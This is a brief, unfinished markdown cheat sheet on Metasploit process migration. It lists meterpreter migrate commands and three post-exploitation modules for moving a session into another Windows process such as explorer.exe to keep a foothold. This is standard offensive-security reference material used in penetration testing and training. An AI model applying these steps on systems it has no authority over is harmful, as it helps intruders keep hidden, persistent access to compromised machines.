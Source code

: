 # Metasploit

## 01 - Migrate Process

TODO: Fill this info

- Migrate to a 64-bit process ID architecture to main presence

```
meterpreter > migrate <PID>

meterpreter > migrate -N explorer.exe

meterpreter > background
```

`msf > use post/windows/manage/migrate`

`msf > use post/windows/manage/priv_migrate`

`msf > use post/windows/manage/archmigrate`